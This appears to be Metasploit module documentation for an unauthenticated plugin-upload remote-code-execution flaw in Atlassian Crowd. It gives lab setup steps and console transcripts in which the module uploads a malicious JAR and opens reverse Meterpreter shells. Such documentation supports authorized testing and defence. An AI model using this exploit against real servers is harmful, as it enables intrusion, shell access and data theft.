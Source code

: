 ## Vulnerable Application

Atlassian Crowd 2.1.x prior to 3.0.5, 3.1.x prior to 3.1.6, 3.2.x prior to 3.2.8, 3.3.x prior to 3.3.5, and 3.4.x prior to 3.4.4
had an incorrect installation of the pdkinstall development plugin, which allows unauthenticated remote attackers to upload and install
arbitrary plugins on vulnerable Atlassian Crowd and Atlassian Crowd Data Center installations via a POST request to the
`/<crowd install base>/admin/uploadplugin.action` page.

Successful exploitation results in remote code execution as the user running the Atlassian Crowd server.

To set up a vulnerable Windows 10 installation:
1. Grab a copy of Windows, any version will do but I tested on Windows 10.
1. Grab a copy of the 3.0.3 version of Atlassian Crowd from https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.0.3.zip
1. Grab a copy of the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Extract the Atlassian Crowd zip.
1. Edit the `atlassian-crowd-3.0.3\apache-tomcat\bin\catalina.bat` file and remove all the `-Djava.endorsed.dirs` options.
1. Run `start_crowd.bat`
1. After a few minutes browse to `http://localhost:8095/crowd/` and click the blue `Set Up Crowd` button to do a new install.
1. Use the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.


To set up a vulnerable 3.2.1 JDK 8 Docker image:
1. `sudo docker volume create --name crowdVolume`
1. `sudo docker run -v crowdVolumeddd:/var/atlassian/application-data/crowd --name="crowd3.2.1" -d -p 8095:8095 atlassian/crowd:3.2.1-jdk8`
1. Wait for install to finish then browse to `http://localhost:8095/`.
1. Click the blue `Set Up Crowd` button to do a new install.
1. If the Docker image crashes at this point, increase the amount of memory allocated towards it. Java requires a fair bit of memory.
1. Use the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.

## Verification Steps

1. Follow the steps in `Vulnerable Application`
1. `use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce`
1. Set `RHOST` to the target IP
1. Set `LHOST` to your local IP
1. `exploit`
1. You should get a shell back as the user running the Atlassian Crowd application.

## Options

## Scenarios

### Atlassian Crowd 3.0.3 on Windows 10 20H2
```
msf6 > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 192.168.224.204
RHOSTS => 192.168.224.204
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 192.168.224.128
LHOST => 192.168.224.128
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.224.204  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Cloud
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.224.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try install an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating its vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 192.168.224.204
[*] Meterpreter session 1 opened (192.168.224.128:4444 -> 192.168.224.204:53871) at 2021-07-30 11:56:38 -0500

meterpreter > getuid
Server username: test
meterpreter > pwd
C:\Users\test\Desktop\atlassian-crowd-3.0.3
meterpreter >
```

### Atlassian Cloud 3.2.1 Linux Docker Image
```
msf6 > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Crowd
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > check

[*] Sending a test request to try installing an invalid plugin to see if the server is vulnerable...
[+] 127.0.0.1:8095 - The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating it's vulnerable!
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try installing an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating it's vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:39316) at 2021-08-02 10:56:47 -0500

meterpreter > sysinfo
Computer    : 3fc6d7283aaa
OS          : Linux 5.8.0-63-generic (amd64)
Meterpreter : java/linux
meterpreter > getuid
Server username: crowd
meterpreter > pwd
/opt/atlassian/crowd
meterpreter > ls
Listing: /opt/atlassian/crowd
=============================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100444/r--r--r--  1254   fil   2018-05-09 05:36:38 -0500  README.txt
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:10 -0500  apache-tomcat
100444/r--r--r--  252    fil   2018-05-09 05:36:38 -0500  build.bat
100444/r--r--r--  650    fil   2018-05-09 05:36:38 -0500  build.properties
100554/r-xr-xr--  204    fil   2018-05-09 05:36:38 -0500  build.sh
100444/r--r--r--  2847   fil   2018-05-09 05:36:38 -0500  build.xml
40554/r-xr-xr--   4096   dir   2018-05-09 06:01:28 -0500  client
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:13 -0500  crowd-openidclient-webapp
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:14 -0500  crowd-openidserver-webapp
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:13 -0500  crowd-webapp
40776/rwxrwxrw-   4096   dir   2021-07-30 17:03:57 -0500  database
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:09 -0500  etc
40554/r-xr-xr--   32768  dir   2021-07-13 01:52:15 -0500  licenses
100444/r--r--r--  407    fil   2018-05-09 05:36:38 -0500  start_crowd.bat
100554/r-xr-xr--  324    fil   2018-05-09 05:36:38 -0500  start_crowd.sh
100444/r--r--r--  98     fil   2018-05-09 05:36:38 -0500  stop_crowd.bat
100554/r-xr-xr--  71     fil   2018-05-09 05:36:38 -0500  stop_crowd.sh

meterpreter >
```
